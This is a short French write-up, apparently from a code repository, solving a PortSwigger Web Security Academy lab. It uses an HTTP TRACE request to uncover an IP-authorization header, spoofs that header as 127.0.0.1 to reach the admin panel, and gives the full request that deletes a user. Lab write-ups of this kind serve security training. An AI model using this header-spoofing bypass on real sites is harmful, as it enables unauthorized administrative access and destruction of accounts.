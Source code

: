 # Lab

https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass

## Payload

`https://0abc00c40370ae8b8245926d00f50073.web-security-academy.net/admin` -> `Admin interface only available to local users`

Avec une requete de type `TRACE` sur `/admin` on obtient:

```
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 724

TRACE /admin HTTP/1.1
Host: 0abc00c40370ae8b8245926d00f50073.web-security-academy.net
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
upgrade-insecure-requests: 1
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
accept-encoding: gzip, deflate
accept-language: en-US,en;q=0.9
cookie: session=uanEExZAF6G2lwZID4SiKD6zRCcu3QqB
Content-Length: 0
X-Custom-IP-Authorization: 31.37.183.241
```

On voit le header `x-custom-ip-authorization` qui contient une IP.

Le message d'erreur disait que l'interface admin n'était accessible que localement, donc on peut essayer de changer l'IP dans le header pour `127.0.0.1` et on obtient une réponse.

Plus qu'à supprimer l'utilisateur `carlos` pour valider le lab en réutilisation le header `x-custom-ip-authorization` avec la valeur `127.0.0.1` et la requete sur `/admin/delete?username=carlos`.

```
GET /admin/delete?username=carlos HTTP/2
Host: 0abc00c40370ae8b8245926d00f50073.web-security-academy.net
Cookie: session=uanEExZAF6G2lwZID4SiKD6zRCcu3QqB
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0abc00c40370ae8b8245926d00f50073.web-security-academy.net/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Custom-Ip-Authorization: 127.0.0.1
```